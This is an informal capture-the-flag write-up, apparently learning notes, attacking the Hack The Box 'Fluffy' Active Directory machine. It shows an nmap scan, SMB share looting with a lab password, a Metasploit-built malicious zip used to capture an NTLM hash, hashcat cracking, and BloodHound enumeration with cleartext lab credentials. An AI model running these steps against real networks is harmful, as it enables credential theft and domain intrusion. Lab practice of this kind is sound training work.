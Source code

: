 > s8 - window - ez -  i cannot do


> [!NOTE]  
> i have no idea what an ad is...
> we ball im going in blind
> 
> future me is gonna look at this and hopefully think 'this idiot'
> 
> but this is a self note guided by a writeup 

<details>
<summary>Nmap scan</summary>

```
# Nmap 7.95 scan initiated Fri Jul  4 05:33:07 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -O -v -oN Fluffy 10.10.11.69
Nmap scan report for 10.10.11.69
Host is up (0.27s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-05 00:33:33Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 15h00m01s, deviation: 0s, median: 15h00m01s
| smb2-time: 
|   date: 2025-07-05T00:34:29
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  4 05:35:06 2025 -- 1 IP address (1 host up) scanned in 119.12 seconds
```
</details>

<details>
  <summary>Listing and connecting to SMB shares</summary>
 
smbclient -L //10.10.11.69 -U j.fleischman
```
  Password for [WORKGROUP\j.fleischman]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk      
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.69 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```


smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 19 10:27:02 2025
  ..                                  D        0  Mon May 19 10:27:02 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

		5842943 blocks of size 4096. 1567835 blocks available
```

Downloading files from the share 
```
smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!
Try "help" to get a list of possible commands.
smb: \> recurse ON  //recursively get files
smb: \> prompt OFF  // ignore prompt 
smb: \> mget * //get all
getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (121.6 KiloBytes/sec) (average 121.6 KiloBytes/sec)
getting file \KeePass-2.58.zip of size 3225346 as KeePass-2.58.zip (838.1 KiloBytes/sec) (average 267.7 KiloBytes/sec)
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (149.9 KiloBytes/sec) (average 261.0 KiloBytes/sec)
```
</details>

Findings in share
=
Nice pdf, dont mind if i take a look 

![image](https://github.com/user-attachments/assets/e1ba2b62-022b-43ac-a719-20b07168758c)

mentioned cves in the pdf
> CVE-2025-24996

External control of file name or path in Windows NTLM allows an unauthorized attacker to perform spoofing over a network.
![image](https://github.com/user-attachments/assets/3667dfe0-b375-45c7-a6a1-4f0339a83faa)
![image](https://github.com/user-attachments/assets/44a1832b-18f7-43d9-9149-ef50b6717f35)

> CVE-2025-24071

Exposure of sensitive information to an unauthorized actor in Windows File Explorer allows an unauthorized attacker to perform spoofing over a network.

> CVE-2025-46785

Buffer over-read in some Zoom Workplace Apps for Windows may allow an authenticated user to conduct a denial of service via network access.
> CVE-2025-29968

Improper input validation in Active Directory Certificate Services (AD CS) allows an authorized attacker to deny service over a network.
> CVE-2025-21193

Active Directory Federation Server Spoofing Vulnerability
> CVE-2025-3445


Metasploit exploit the cve
=
time to use a module which aparently is not in metasploit

1st get the module (rb file) and put it into this folder for reasons, after that, run it to make the payload (evil zip file)
```
/usr/share/metasploit-framework/modules/auxiliary/server/
```

![image](https://github.com/user-attachments/assets/875edeef-220a-4d6c-8e0f-95d4ad006860)

and here we have the hash....
time to put the cat to work
![image](https://github.com/user-attachments/assets/59601e74-6897-442c-abf2-cde799d7b7bc)

good cat! 

```hashcat -m 5600 -a 0 agila-has.txt /usr/share/wordlists/rockyou.txt --force```
![image](https://github.com/user-attachments/assets/1a3fecce-2231-4d24-be78-ba4aef7398a4)

but too bad this user too is unprivilleged 

bloodhound 
=
Using bloodhound, we can try to get some information on thhe users in the ad?
<details>
fleischman

```
bloodhound-python -d FLUFFY.HTB -u j.fleischman -p "J0elTHEM4n1990!" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 51S
```

agila 

```
bloodhound-python -d FLUFFY.HTB -u p.agila -p "prometheusx-303" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 48S
```
RELEASE THE HOUND 
![image](https://github.com/user-attachments/assets/a59f7c9c-5223-4dda-98e8-2d29da1e6096)

> defenitely did not take an hour debugging postgresql, neo4j and bloodhound

but here we have it, good hound !
![image](https://github.com/user-attachments/assets/68d0e25f-0929-47bc-9695-21df4632c488)
![image](https://github.com/user-attachments/assets/8fc99465-4361-453a-b1fd-b97a765d1596)

From this image, its knwon that agila has a service account manager role...

</details>



